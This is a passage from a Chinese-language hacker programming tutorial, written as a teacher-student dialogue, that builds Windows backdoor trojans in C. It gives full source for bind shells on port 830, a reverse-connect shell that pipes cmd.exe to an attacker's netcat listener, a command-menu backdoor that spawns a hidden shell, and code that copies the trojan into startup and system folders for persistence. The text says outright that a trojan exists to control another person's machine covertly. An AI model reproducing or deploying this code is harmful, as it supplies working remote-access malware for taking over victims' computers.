    if(!ret) break;
    ret=send(clientFD,Buff,lBytesRead,0);
    if(ret<=0) break;
}
else
{
    // 否则，接收远程客户机的命令
    lBytesRead=recv(clientFD,Buff,1024,0);
    if(lBytesRead<=0) break;
    strcpy(cmdLine,"cmd.exe /c");
    strncat(cmdLine," ",1);
    strncat(cmdLine,Buff,lBytesRead);
    // 以命令为参数，启动cmd执行
    CreateProcess(NULL,cmdLine,NULL,NULL,1,0,NULL,NULL,&si,&ProcessInformation);
}
```

“注意，这里的 cmd /c 的意思是命令执行完毕后，退出 DOS 窗口程序。”老师提醒道，“我们把程序连起来，仍然把接收远程命令数据——开进程执行——读出并传回，形成不断的循环，就是一个单管道的 telnet 后门了。”

“完整的程序请参看 CMDPipe1.cpp。”

```c
#include <winsock2.h>
#include <stdio.h>
#include <string.h>

#pragma comment(lib,"Ws2_32")
int main()
{
    WSADATA ws;
    SOCKET listenFD;
    char Buff[1024];
    int ret;
    // 初始化wsa
    WSAStartup(MAKEWORD(2,2),&ws);
    // 建立socket
    listenFD = socket(AF_INET,SOCK_STREAM,IPPROTO_TCP);
    // 监听本机830端口
    struct sockaddr_in server;
    server.sin_family = AF_INET;
    server.sin_port = htons(830);
    server.sin_addr.s_addr=ADDR_ANY;
    ret=bind(listenFD,(sockaddr *)&server,sizeof(server));
    ret=listen(listenFD,2);
    // 如果客户请求830端口，接受连接
    int iAddrSize = sizeof(server);
    SOCKET clientFD=accept(listenFD,(sockaddr *)&server,&iAddrSize);
    SECURITY_ATTRIBUTES pipeattr1;
    HANDLE hReadPipe1,hWritePipe1;
    // 建立匿名管道1
    pipeattr1.nLength = 12;
    pipeattr1.lpSecurityDescriptor = 0;
    pipeattr1.bInheritHandle = true;
    CreatePipe(&hReadPipe1,&hWritePipe1,&pipeattr1,0);
    STARTUPINFO si;
    ZeroMemory(&si,sizeof(si));
    si.dwFlags = STARTF_USESHOWWINDOW|STARTF_USESTDHANDLES;
    si.wShowWindow = SW_HIDE;
    // si.hStdInput = hReadPipe2;
    si.hStdOutput = si.hStdError = hWritePipe1;
    PROCESS_INFORMATION ProcessInformation;
    char cmdLine[200];
    unsigned long lBytesRead;
```

以命令为参数运行 cmd.exe

（远程主机）--> 传送命令 --> 以命令为参数建立 cmd.exe 子进程运行

（远程主机）<-- 输入 <-- 管道1输出 <-- 管道1输入 <-- 输出（cmd.exe 子进程）

```c
while(1)
{
    // 检查管道1，即cmd进程是否有输出
    ret=PeekNamedPipe(hReadPipe1,Buff,1024,&lBytesRead,0,0);
    if(lBytesRead)
    {
        // 管道1有输出，读出结果发给远程客户机
        ret=ReadFile(hReadPipe1,Buff,lBytesRead,&lBytesRead,0);
        if(!ret) break;
        ret=send(clientFD,Buff,lBytesRead,0);
        if(ret<=0) break;
    }
    else
    {
        // 否则，接收远程客户机的命令
        lBytesRead=recv(clientFD,Buff,1024,0);
        if(lBytesRead<=0) break;

        strcpy(cmdLine,"cmd.exe /c");
        strncat(cmdLine,Buff,lBytesRead);

        // 以命令为参数，启动cmd执行
        CreateProcess(NULL,cmdLine,NULL,NULL,1,0,NULL,NULL,
        &si,&ProcessInformation);
    }
}
return 0;
}
```

“大家可以直接执行看看效果——大家要有思想准备，单管道后门可没那么好看了。”

“单管道和双管道各有优点，其实，我们还可以继续改进，得到零管道的木马。”

## 3.2 零管道木马和反弹木马

“哦？零管道的木马？”菜鸟B问道，“不用管道怎么读出 cmd 子进程的运行结果呢？”

“呵呵，不是不管管道，”老师纠正道，“而是不用新建管道。”

“啊？啥意思？”小菜们更迷糊了……

“其实是这样，我们用 socket 句柄直接替代 cmd 进程的输入和输出句柄，就像这样，`si.hStdInput = si.hStdOutput = si.hStdError = (void *)clientFD;`”

“这样替换后，cmd 的输入输出就可以直接和远程通信了，省去了进程间传输的所有东西。”

“哇！cool 毙了！”

“我们来看看实现。”老师还提醒了一句，“但要注意，要用 `WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0)` 来建立 socket 才能像这样替换。因为 `WSASocket()` 创建的 SOCKET 默认是非重叠套接字，才可以直接将 cmd.exe 的 stdin、stdout、stderr 转向到套接字上。而 `socket()` 函数创建的 SOCKET 是重叠套接字，就不能这样了。WSASocket 函数如下。”

原型：

```c
SOCKET WSASocket(
    int af,
    int type,
    int protocol,
    LPWSAPROTOCOL_INFO lpProtocolInfo,
    GROUP g,
    DWORD dwFlags
);
```

参数：

- 第一个参数 af：指定应用程序使用的通信协议的协议族；
- 第二个参数 type：指定要创建的套接字类型，流套接字类型为 `SOCK_STREAM`，数据报套接字类型为 `SOCK_DGRAM`；
- 第三个参数 protocol：指定应用程序所使用的通信协议；
- 第四个参数 lpProtocolInfo：指向 `WSAPROTOCOL_INFO` 结构的指针；
- 第五个参数 g：保留字段，不使用；
- 第六个参数 dwFlags：指定 socket 属性的 flag。

说明：

如果成功，返回建立的 `SOCKET`，如果失败，返回 `INVALID_SOCKET`。

“使用零管道后，木马程序比较短而精悍，非常实用。”老师指着下面的代码说道。

```c
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib, "Ws2_32")
int main()
{
    WSADATA ws;
    SOCKET listenFD;
    int ret;
    // 初始化 Wsa
    WSAStartup(MAKEWORD(2,2), &ws);
    // 注意要用 WSASocket
    listenFD = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);

    // 监听本机 830 端口
    struct sockaddr_in server;
    server.sin_family = AF_INET;
    server.sin_port = htons(830);
    server.sin_addr.s_addr = ADDR_ANY;
    ret = bind(listenFD, (sockaddr *)&server, sizeof(server));
    ret = listen(listenFD, 2);
    // 如果客户端请求 830 端口，接受连接
    int iAddrSize = sizeof(server);
    SOCKET clientFD = accept(listenFD, (sockaddr *)&server, &iAddrSize);
    STARTUPINFO si;
    ZeroMemory(&si, sizeof(si));
    si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
    si.wShowWindow = SW_HIDE;
    si.wShowWindow = SW_SHOWNORMAL;
    si.hStdInput = si.hStdOutput = si.hStdError = (void *)clientFD;
    char cmdLine[] = "cmd.exe";
    PROCESS_INFORMATION ProcessInformation;
    // 建立进程
    ret = CreateProcess(NULL, cmdLine, NULL, NULL, 1, 0, NULL, NULL, &si,
    &ProcessInformation);
    ...
    return 0;
}


```

“这么简短的代码啊！”台下感叹道，“我们测试一下，运行，打开了 830 端口，登录交互，so beautiful! 如图 3.4。”
“天啊！这么简单的方法怎么不早说呢！”小菜们嚷道，“老师还有没有什么隐藏的啊？我们早就可以不写双管道和单管道的后门了！”

“呵呵，不是隐藏什么，按这样的顺序讲解一是因为遵循技术发展的路线。”老师笑道，“但更重要的是，这三种方法各有优劣。”

“零管道编写方法的确比较方便，但用户一输入的命令，就直接进入 cmd 进程执行了，有时我们想预先处理下用户的命令，比如列举进程的命令——pslist，Cmd 里面是没有这个命令的，就需要用双管道或单管道的方法，在木马中自己实现 pslist 的功能。”

“哦！”

“而双管道会有一个 cmd 进程一直开启，单管道执行连续的命令时又不大方便，所以我们要根据不同的实际情况，采用不同的方法。”

“哦，真是尺有所短，寸有所长啊！”

“对！大家说得很好！随着时间的流逝，技术的发展，反弹木马也登上了历史的舞台。”

“刚才的木马，是目标机作为服务端，监听 830 端口，攻击机作为客户端，正向连接目标机的 830 端口。但如果目标机开启了防火墙，这种方法就不行了。目标机的防火墙会阻断对端口的连接，我们就得不到 shell 了。”

“哦，是啊，那怎么办啊？”

“所以我们要使用反向连接。”老师说道，“其示意图如图 3.5。”

“反向连接是把攻击电脑作为服务端，监听一个端口，而目标主机上运行的木马作为客户端，主动连接攻击机监听的端口。一般的防火墙，特别是硬件防火墙，是不会阻断由内往外的连接，所以很多情况下，可以成功。”

“哈哈，越来越有意思了！”

“其实主要的实现，前面都已经讲过，关键在于思路。”老师继续说道，“我们用零管道的思想写一个反弹木马吧。”

“首先初始化 socket。因为是零管道，所以用 WSASocket() 函数建立 socket，又因为是客户端，所以用 connect 主动连接攻击者的服务端。”
## 菜鸟后门编写初探

```c
WSAStartup(MAKEWORD(2,2),&ws);
WSASocket(PF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
connect(s,(struct sockaddr *)&server,sizeof(server));
```

“连接成功后，我们不用管道，直接用 socket 句柄来代替 cmd 子进程的输入输出句柄。就像下面一样。”

```c
// cmd 的输入输出句柄，都用 socket 来替换
si.hStdInput = si.hStdOutput = si.hStdError = (void *)s;
// 建立进程
ret=CreateProcess(NULL,cmdLine,NULL,NULL,1,0,NULL,NULL,&si,
&ProcessInformation);
```

“把它们合起来就可以得到反向连接的程序，BackC.cpp 如下。”

```c
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib,"Ws2_32")
int main()
{
    WSADATA ws;
    SOCKET s;
    int ret;
    // 初始化 wsa
    WSAStartup(MAKEWORD(2,2),&ws);
    // 建立 socket
    s=WSASocket(PF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
    // 连接对方 830 端口
    struct sockaddr_in server;
    server.sin_family = AF_INET;
    server.sin_port = htons(830);
    server.sin_addr.s_addr=inet_addr("127.0.0.1");
    // 反向连接
    connect(s,(struct sockaddr *)&server,sizeof(server));
    STARTUPINFO si;
    ZeroMemory(&si,sizeof(si));
    si.cb = sizeof(si);
    si.dwFlags = STARTF_USESHOWWINDOW|STARTF_USESTDHANDLES;
    si.wShowWindow = SW_HIDE;
    // cmd 的输入输出句柄，都用 socket 来替换
    si.hStdInput = si.hStdOutput = si.hStdError = (void *)s;
    char cmdLine[] = "cmd.exe";
    PROCESS_INFORMATION ProcessInformation;
    // 建立进程
    ret=CreateProcess(NULL,cmdLine,NULL,NULL,1,0,NULL,NULL,&si,
    &ProcessInformation);
    return 0;
}


```

“ok，测试一下，请出我们的‘瑞士军刀’——netcat！我们先用 nc -l -p 830 在本机上监听 830 端口，然后在目标机上运行我们的反弹木马，啪！在我们的 nc 端成功获得一个 DOS shell，如图 3.6。”老师说道。

# 黑客编程入门
图 3.6

“哦！nc 也不错啊！”

“哈哈，”老师大笑，“其实 nc 也算是个木马。它通过不同的参数，选择作为服务端或者作为客户端。刚才是把 nc 用于服务端，我们也可以用 `nc IP port` 命令，来把 nc 作为客户端，连接服务器的端口。”

老师顿了一下，又说道：“在我们的正向木马和反弹木马中，其实已经实现了 nc 的这两种功能。我们可以把正向和反弹都合在一个程序中，然后通过不同的参数，来执行不同的代码，就和 nc 完全一样了。”

“就是用个大大的 if else 括弧，具体就是：”

```c
if（作为服务端）
{
    执行服务端的那个程序
}
else
{
    执行反弹木马的那个程序
}
```

“这样就可以了。”

“哦！不会吧，有黑客‘瑞士军刀’之称的 nc 居然可以由我们这样的菜鸟写出来？”小菜们几乎不相信自己的眼睛和耳朵，以及鼻子、嘴巴、四肢、大脑……

“呵呵，这是大家努力的结果啊。”

## 3.3 木马功能的增强和扩展模块

课间休息。小菜们又开始了疯狂地瞎侃闲聊，老师等大家好不容易回到座位上，说：“好了，我们继续上课。大家觉得现在的这个木马怎么样了？”

“不错，不错，”小菜们说道，“能达到我们一般的目的，反弹的功能更好用！”

“但只有 DOS 的功能，现在觉得有点不足了，”小菜们继续说道，“而且每次都要手动运行木马后才能连接，很麻烦，木马能不能自己运行啊？”

“呵呵，大家都独立地进行了思考嘛，这点很好，”老师表扬道，“对于第一个功能问题，我们可以加入一些自己想要的代码，以加强木马的功能；每次开机都会运行我们的木马。”

“那老师快讲讲如何实现呢？”小菜们又想大干一场了。

“好，首先是在木马中添加更多的功能。”老师指着第一点，说道，“前面已经说过，我们增加木马功能，是把攻击者发过来的数据先进行判断，如果是列出进程、杀防火墙等功能，则交给木马程序自己处理；是 DOS 命令，才交给 cmd 子进程处理。”

老师接着说道：“当然，我们还可以在必要的时候才调出 cmd shell，平时都在木马给出的‘结果’中进行操作。”

“哇！越来越有意思了！”大家都激动起来。

“好吧，我们一步一步地实现在木马中想拥有的功能吧。”

### 3.3.1 结果的实现——打造初步后门

“我们以工作在服务端的木马为例，讲解如何编写更强的功能。”

“服务端木马，先用 **WSAStartup()** 初始化网络函数，再用 **WSASocket()** 建立 socket，然后用 **bind()** 绑定端口，**listen()** 进行监听，如果有客户请求，就用 **accept()** 接受它。程序如下。”

```c
WSAStartup(MAKEWORD(2,2), &ws);
// 建立socket
listenFD = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
// 监听本机830端口
struct sockaddr_in server;
server.sin_family = AF_INET;
server.sin_port = htons(830);
server.sin_addr.s_addr = ADDR_ANY;
ret = bind(listenFD, (sockaddr *)&server, sizeof(server));
ret = listen(listenFD, 2);
// 如果客户请求830端口，接受连接
int iAddrSize = sizeof(server);
...
SOCKET clientFD = accept(listenFD, (sockaddr *)&server, &iAddrSize);
```

“与前面讲解的是一样的啊。”大家纷纷说道。

“对啦！关键在后面。”老师说道，“客户端建立连接后，木马接受攻击者发过来的命令数据，不给 cmd 子进程，而是进行判断，对不同的命令做不同的处理。”

“具体的实现，就是用 **IBytesRead = recv(clientFD, Buff, 1024, 0)**，把攻击者发过来的命令数据接收到 Buff 数组中，我们再对 Buff 进行判断。”

“使用 **switch(Buff[0])......case** 语句进行判断。switch 是个判断处理开关。比如 **switch(Buff[0])，case '1'{处理1}**，就是如果 Buff 中的第一个数据 Buff[0] 为‘1’，就执行‘处理1’里的语句；如果是 **switch(Buff[0])，case '2'{处理2}**，就是 Buff[0] 为 2 的时候，执行‘处理2’里的语句。”

“大家都想要些什么功能呢？”老师讲完 case 的用法后问道。

“随便啥，啥好玩都可以！”小菜们很想看效果。

“好！来几个简单的、捉弄人的功能吧，比如开关光驱，交换鼠标左右键等。”老师说道，“首先第一个功能，当攻击者输入 **o(open)** 的时候，打开光驱；输入 **c(close)** 的时候，关闭光驱。代码如下。”

```c
IBytesRead = recv(clientFD, Buff, 1024, 0);    // 接收命令数据
if(IBytesRead <= 0)
    break;
switch(Buff[0])
{
    case 'o':    // 打开光驱
        mciSendString("set cdaudio door open", NULL, 0, NULL);
        break;

    case 'c':    // 关闭光驱
    {
        mciSendString("set cdaudio door closed wait", NULL, 0, NULL);
        break;
    }
}
```

“大家可以看见，开关光驱可以由 mciSendString 函数实现，它在 mmsystem.h 头文件中定义，需要 Winmm.lib 这个库文件。所以要在程序中加上下面两句话。”

```c
#include <mmsystem.h>
#pragma comment(lib, "Winmm.lib")
```

“我们试试！”小菜们急着运行起来，用客户机 telnet 830 端口连接上后，输入“o”，果然光驱一阵响动，“啪”的一声弹了出来。再输入“c”，光驱又缩了进去。

“哈哈，真好玩啊！”小菜们反复地按着 ocococ，玩得不亦乐乎。

“好了，好了，光驱要被弹坏了！”老师心痛地说道，“我们继续看看交换鼠标左右键吧。输入 x（exchange）交换按键，输入 r（restore）恢复按键。代码如下。”

```c
case 'x':    // 交换按键
{
    SwapMouseButton(1);
    break;
}

case 'r':    // 恢复按键
{
    SwapMouseButton(0);
    break;
}
```

“这里使用 SwapMouseButton() 函数，当 SwapMouseButton() 函数参数为 1 的时候，交换鼠标左右键设置；参数为 0 的时候，恢复原来的设置。”老师解释道，“大家继续测试测试？”

“好哩！”众小菜重新编译了程序，运行并登录，输入“x”，这下目标机上按左键的时候，弹出的是右键菜单。

“哈哈，果然成功了！”小菜们再输入“r”，又恢复了正常的鼠标使用。

“嗯，不错，不错！”大家说道。

菜鸟 A 发现了个问题，问道：“随着木马支持命令的增多，不易记清可以使用的命令字符串啊！”

“呵呵，是的。”老师回答道，“这个时候，就需要帮助文档的支持了。任何成熟的软件，都有详细的帮助文档来方便用户使用。我们这个木马也支持吧！当输入‘?’的时候，就给用户发送可以使用的命令，就像这样。”

```c
case '?':    // help
{
    send(clientFD, "? o c x r", sizeof("? o c x r"), 0);
    break;
}
```

## 菜鸟后门编写初探

“哦，输入字符‘?’的时候，就会得到‘? o c x r’的简单提示了。”小菜们懂了。

“是的。这个帮助还比较简陋，以后可以考虑完善它——不仅仅显示支持的命令，还详细地解释命令的功能和使用方法。帮助文档的好坏，也是决定一个软件好坏的重要部分。”

“当然，完善帮助比较简单，此处先按下不表，我们先考虑一个更重要的问题——木马的退出问题吧。”

“我们连上木马后，总有一个退出的时候；大家考虑下，作为木马的退出，应该怎样处理才比较科学呢？”老师问道。

“退出？木马应该不能退出吧？退出了岂不是再也不能控制了？”菜鸟 A 说道。

“不，连接应该可以断掉，但以后可以随时根据需要，再次连上！”菜鸟 B 补充道。

“嗯，而且在必要的时候，必要的地点，木马也能真正地停止运行。”菜鸟 C 也说道。

“对，”老师总结道，“大家提到了两点，一是只是断开当前连接，以后可以再次连接；二是木马真正退出运行，除非想办法再次执行木马程序，否则以后不能再连接了。这两种功能木马都需要！这样才算完善。”

“我们来分别实现它。输入 q（quit）的时候，暂时退出连接，以后可再次连接；输入 e（exit）为不仅退出连接，木马也完全退出运行。”

“先看第一个 q 命令。输入‘q’命令时，只需使用 `closesocket(clientFD)` 函数关闭当前的套接字就可以了；然后跳到 ag 的地方继续监听。ag 对应前面的 `SOCKET clientFD = accept(listenFD, (sockaddr *)&server, &iAddrSize)`，以后如果又有连接请求，就可以再次控制了。”

```c
case 'q':    // 退出连接，再次监听
{
    closesocket(clientFD);
    goto ag;
}
```

“而 e 命令把所有的套接字都关掉，然后跳到程序的最后 `end: ; return 0;` 的地方，整个木马运行结束；如果需要再次连接，则需要重新运行木马先了。”

```c
case 'e':    // 退出木马程序
{
    closesocket(clientFD);
    closesocket(listenFD);
    goto end;
}
```

“对应的，在帮助信息里面添上 q 和 e 两个命令的提示。”

```c
case '?':    // help
{
    send(clientFD, "? o c x r q e", sizeof("? o c x r q e"), 0);
    break;
}


```

“最后得到连起来的程序 `door1.cpp` 就是一个初步的木马‘终界’程序，运行效果如图 3.7。”
输入问号‘?’，显示帮助；输入‘q’断开连接，但可以再连；输入‘e’，才是真正地退出木马了。”

“哦！这样啊！哈哈，终于有了可以完成我们自己想要功能的木马啦！”小菜们说道。

老师总结道：“是的，虽然现在这个木马功能简单，界面不好看，没有提示符，也得不到 cmd shell 来执行 DOS 命令，但我们打造出了一个基本的架构，之后的工作就是在此基础上，一步步地完善它。”

### 3.3.2 cmd shell 的自由切换

“最先要加入的，是执行一些 DOS 命令啊。”小菜们问道。

“嗯，虽然我们可以直接写出程序来实现所有想要的 DOS 命令。”老师说道，“但没有必要，现成的 DOS 命令，最好还是交给系统来执行，以减少工作量。”

“第一种方法。”老师继续说道，“可以通过 system、WinExec 等执行函数来执行 DOS 命令，但查看执行的结果比较麻烦，只能把结果输出到一个文本文件中，然后将文件的内容发给攻击者。”

“第二种，也是最好的方法，就是和前面一样，开一个 DOS 控制台来执行命令。这个 DOS 控制台平时不使用，只有当攻击者输入‘s’的时候，才会给那个 socket 绑定一个 cmd shell。就像下面一样。”

```c
case 's':
{
    cmdshell(clientFD);
    send(clientFD, "Shell OK", sizeof("Shell OK"), 0);
    break;
}
```

“在 cmdshell() 这个函数中，使用零管道后门，将 cmd 子进程的输入输出句柄，都替换为 socket。这样 cmd 的输入输出都直接给远程的攻击者了，代码如下。”

```c
si.dwFlags = STARTF_USESHOWWINDOW|STARTF_USESTDHANDLES;
si.wShowWindow = SW_HIDE;
si.hStdInput = si.hStdOutput = si.hStdError = (void *)clientFD;
char cmdLine[] = "cmd";
PROCESS_INFORMATION ProcessInformation;
int ret;
// 建立进程
ret = CreateProcess(NULL, cmdLine, NULL, NULL, 1, 0, NULL, NULL, &si, &ProcessInformation);
```

“哦，和前面零管道木马里讲过的知识一样啊！”小菜们说道。

“呵呵，为了木马长远、健康、持续地运行，需要在攻击者输入 exit 退出 cmd shell 时，安全地返回到木马的‘结果’。”

“为此，使用 WaitForSingleObject() 函数等待 cmd 子进程的执行，直到执行完成，”

```c
WaitForSingleObject(ProcessInformation.hProcess, INFINITE);
```

“完成后，杀掉 cmd 进程，关闭进程句柄，就可以安全返回木马‘结果’了。”

```c
TerminateProcess(ProcessInformation.hProcess, 0);
CloseHandle(ProcessInformation.hProcess);


```

“除了实现 cmdshell() 这个函数外，我们还在帮助信息中添加一个‘s’字符。然后编译新的木马文件 door2，执行结果如图 3.8。”老师指着图解释道，“输入‘s’时，就可以启动一个 cmd shell，在里面我们可以执行 DOS 命令；当输入 exit 退出 cmd shell 时，又返回到了木马‘结果’，我们又可以执行其他木马命令了。”

“唔……”小菜们满意地说道，“这个木马的功能好多了。”

“呵呵，是啊。”老师打量了木马界面后，说道，“但它的界面信息还不完整，输入命令时也不方便，我们再完善完善帮助信息，把它打造成一个木马模板吧。”
### 3.3.3 模板二木马

“老师还真挑剔也，界面不完整是什么意思呢？”小菜们问道。

“呵呵，DOS 命令下都有一个提示符，我们的木马却是黑乎乎的一片，就像旧社会一样太黑暗了！”老师解释道，“虽然可以比较隐蔽，但还是给新手攻击者提供一个提示符吧，免得摸黑操作。”

“哦，这个简单啊！”菜鸟 B 抢着说道，“在每次判断了用户的命令后，给攻击端发送一个提示符显示就可以了啊。比如发送‘door>’，就像下面。`send(clientFD,"door>",sizeof("door>"),0);`。”

“好，我们看看效果。”大家执行后，telnet 上去，敲了几个回车，效果如图 3.9。
“啊哟，怎么会显示两个提示符呢？？”菜鸟 B 不解地说道。

“是啊，如果界面成这样，就像旧社会一样太黑暗了！原因是因为 telnet 客户端会把回车换成‘\r \n’两个字符发送，第一个‘\r’字符来了，我们判断后，就产生了一个 door>；然后第二个‘\n’字符来时，又产生一个 door>，所以就出现了两个！”

“哦，这样啊，那如何解决呢？”小菜们问道。

“解决也方便，我们判断发过来的命令长度，长度不为 0 的时候，才发提示符。”老师说道，像下面一样。

```c
if(strlen(cmd))
    send(clientFD, "door>", sizeof("door>"), 0);
```

“哦，界面 ok 了。”大家理解了，“输入命令不方便又是什么意思呢？”

“那是因为我们用 telnet 客户端登录时，是敲入一个字符，就发送一个字符，这样我们的木马还无法处理长度较长的命令。”

“哦？为什么 telnet 会这样呢？”小菜们问道。

“telnet 这样设计的目的，是用来减少延时。”老师耐心地解释道，“可以避免输入一大堆命令同时传输，引起网络拥挤。”

“所以我们的木马为了处理一个字符串的命令，就要改进改进。先把字符串存起来，有回车来的时候，再一起判断。”

“哇！难吗？”

“有思路就不难！我们一个一个地接收字符，挨个存起来，直到是‘0xa’或‘0xd’的时候，知道是攻击者敲回车了，才把之前存起来的命令送出去执行，就像下面一样。”

```c
while(IBytesRead < 256)
{
    if(recv(clientFD, Buff, 1, 0) == SOCKET_ERROR)
        closesocket(clientFD);
        goto ag;

    cmd[IBytesRead] = Buff[0];
    if (Buff[0] == 0xa || Buff[0] == 0xd) // 0xa 0xd是对应回车了
    {
        cmd[IBytesRead] = 0;
        break;              // 退出接收，去执行命令
    }
    IBytesRead++;
}
```

“哦！有了这个处理后，我们可以执行随便好长的命令了！”小菜们说道。

“是啊，我们把执行的命令都改改，开光驱命令是 open，关光驱是 close，得到 cmd shell 是 shell，退出连接是 quit，退出木马运行是 exit。这样就更直观了。”

“而判断命令，也改成使用 strcmp 函数，就像下面一样，判断输入的是 shell 命令。”

```c
if(strcmp(cmd, "shell") == 0)
{
    cmdShell(clientFD);
    send(clientFD, "Shell OK\n\r", sizeof("Shell OK\n\r"), 0);
}


```

“像这样全部更改后，我们也把 help 信息改改，完善完善。完整的程序可以看 door3.exe，执行的效果如图 3.10。”
图 3.10

“嗯！beautify！”菜鸟 A 满意地说道。

“更重要的是，有这样的结构后，我们要添加功能就简单啦！”菜鸟 B 说道。

“呵呵，是的。”老师点头道，“这才是最重要的地方！”

“那添加一些整人的功能吧，比如重启啊，关机啊，控制对方鼠标、键盘啊！”一些小菜们叫道。

“啊？不会吧？”老师说道。

“就是，就是，现在就添嘛！还要抓密码！”剩下的小菜们也叫了起来。

“啊？不会吧？”老师再次说道。

“我们要嘛，我们要嘛……”

老师不说话，把 WinEggDrop Shell 安好后，给同学们看它的帮助信息，如图 3.11。

“啊？不会吧！”看到 WinEggDrop shell 如此之多的功能，小菜们的嘴都合不上了。

“呵呵，”老师笑道，“大家如果有此雅兴，完全可以照着它的功能，实现这个超强的木马来玩玩。”

“但现在要介绍的东西还多，我就不能挨个讲它们的实现了。如果大家还喜欢听，以后到黑客 X 档案上课时，我一定会一条一条地详细讲解这些功能的具体实现的。”

## 菜鸟后门编写初探
图 3.11

“哦……”小菜们还是有点舍不得。

“其实功能也不是越多就越好，”老师继续说道，“因为木马的根本作用是隐秘地控制对方机器；如果功能太多、太杂，容易被发现，反而还是不行的。”

“所以最好的办法是把功能都实现后，根据自己的需要，选择出一些实现代码，定制出自己想要的木马功能。”

“嗯，有道理！”小菜们纷纷点头称是。

“我们抓紧时间，集中精力，来看另一个重要的问题——木马的启动。”

## 3.4 普通木马的自启动实现

“另一个很重要的问题，就是木马的自启动问题。”老师说道，“我们希望木马被激活一次后，每次开机都能自动运行。”

“然而机器关机后，任何程序都会停止运行，也包括我们的木马程序（话外音 sagi：废话）；如果在没有任何外界的干预措施下，单靠我们的木马程序，是无法再次启动起来的。”

“嗯？那怎么还说木马程序开机后可以自动运行，岂不互相矛盾？这到底是什么意思哦？”小菜们不解地问道。

“木马能再次启动是利用了 Windows 系统的机制，”老师微笑着说道，“我们修改 Windows 系统的一些配置，使 Windows 在开机后，能够自动地运行我们的木马程序。这样才保证了木马的‘自动’执行。”

“咦？比尔·盖茨还会留这样的‘接口’给木马程序运行？”

“呵呵，这些机制不是给木马设计的，而是为了保证一些程序或者服务的正确安装，比如一些程序需要重启后继续安装，那么当然需要让系统知道哪些操作应该立即执行。”

“但我们的木马就可以利用系统的这个机制，修改一些地方，来让系统帮助我们自动运行木马，从而完成自启动。”老师说，“所以不同系统的启动方法是不同的，这里讲的都是 Windows 下的木马编写，那当然讲 Windows 下的自启动方法了。”

“修改的方法有很多种，我们分门别类地一一看来！”

### 3.4.1 启动文件夹
图 3.12

“哦？‘打开’是什么意思呢？”菜鸟 B 说道。

“‘打开’的意思是——不太好说。举个例子吧，如果‘启动’文件夹中放入的是程序，那么会被自动运行；而如果放入的是 Word 文档，那么系统会自动运行 Word，并自动在 Word 中打开那篇文档；如果是 WAV 文件，则系统自动运行播放器，并自动地播放该文件。”

“哦，是这样啊。”大家点点头。

“放入快捷方式也可以！”老师补充道，“在系统中，启动文件夹有两种。”

“一种是当前用户专有的启动文件夹，这是许多应用软件自动启动的常用位置。位置一般在系统盘：\Documents and Settings\<用户名>\「开始」菜单\程序\启动中，其中‘<用户名>’是当前登录的用户账户名称，就像下面的图中位置一样，如图 3.13。”
图 3.13

“哦，里面是一个 sniffer 的快捷方式！”小菜们说道。

“嗯，正确！另一种是对所有用户有效的启动文件夹，不管用户用什么身份登录系统，放入该文件夹的快捷方式总是自动启动——这是它与用户专有的启动文件夹的区别所在。该文件夹一般在系统盘：\Documents and Settings\All Users\「开始」菜单\程序\启动，如图 3.14。”
图 3.14

“哇！是一个 door.exe 啊。”

“这下明白菜单中为什么有两个项了吧？”老师说道，“一个是当前用户启动文件夹里的程序，一个是所有用户启动文件夹里的程序。”

“哦！Bingo！”小菜们弹了个响指。

“好了，原理讲解了，我们如何利用这个系统启动机制呢？”

“Simple，把程序拷贝到启动文件夹中啊！”

“就是这样，虽然我们可以使用 DOS 下的 copy 命令完成，但还是来看看如何用 API 编程实现吧。为了方便，我们把木马程序直接拷贝到所有用户的启动文件夹中。所有用户的启动文件夹，在‘系统盘符\\Documents and Settings\\All Users\\「开始」菜单\\程序\\启动\\’下。”

“所以首先要获得系统所在的盘符，用 GetSystemDirectory 函数可以得到系统的安装目录。”

原型：

```c
UINT GetSystemDirectory(
    LPTSTR lpBuffer,
    UINT uSize
);
```

- 参数：
- 第一个参数 lpBuffer：存储接收到的系统安装目录
- 第二个参数 uSize：指明缓冲区 lpBuffer 的大小

“我们使用就是。”

```c
char TempPath[MAX_PATH];
GetSystemDirectory(TempPath,        // 系统目录存在 TempPath 中
    MAX_PATH);                      // TempPath 的大小
```

“那么 TempPath 的第一个字符是系统盘符，第二个字符是冒号！”

```c
TempPath[2] = '\0';   // 这样 TempPath[0][1]就是系统盘符和冒号，比如 C:
```

“再在 TempPath 附上路径‘\\Documents and Settings\\All Users\\「开始」菜单\\程序\\启动\\’和木马文件名 door.exe。”

```c
strcat(TempPath, "\\Documents and Settings\\All Users\\开始菜单\\程序\\启动\\door.exe");
```

“这样 TempPath 就指明了启动文件的路径。”

“而源文件本身的路径，可以通过 GetModuleFileName() 函数来获得。”

原型：

```c
DWORD GetModuleFileName(
    HMODULE hModule,
    LPTSTR lpFilename,
    DWORD nSize
);
```

- 参数：
- 第一个参数 hModule：获得该模块的路径；如果想获取本模块的路径，则设为 NULL
- 第二个参数 lpFilename：存储获得的文件路径
- 第三个参数 nSize：指明 lpFilename 的大小

“我们这里。”

```c
GetModuleFileName(NULL,
    ExeFile, // 路径存储在 ExeFile 缓冲区中
    MAX_PATH); // ExeFile 缓冲区的大小
              // 获取 EXE 本身的路径
```

“有了源文件路径 ExeFile 和目标文件路径 TempPath，就可以进行最后的拷贝工作，`CopyFile(ExeFile, TempPath, FALSE)`，就把 ExeFile 拷贝到 TempPath 中，最后一个参数为 FALSE 表示有同名文件就强制覆盖，程序写起来如下。”

```c
#include <windows.h>
#include <stdio.h>
int main()
{
    char ExeFile[MAX_PATH];
    char TempPath[MAX_PATH];
    int ret;
    // 得到当前文件名
    GetModuleFileName(NULL,
        ExeFile,
        MAX_PATH);
    // 获取 EXE 本身的路径
    // 路径存储在 ExeFile 缓冲区中
    // ExeFile 缓冲区的大小

    // 得到系统目录
    GetSystemDirectory(TempPath,
        MAX_PATH);
    // 系统目录存在 TempPath 中
    // TempPath 的大小
    strcat(TempPath, "\\door.exe");
    // 拷贝到系统目录\\door.exe
    ret = CopyFile(ExeFile, TempPath, FALSE);
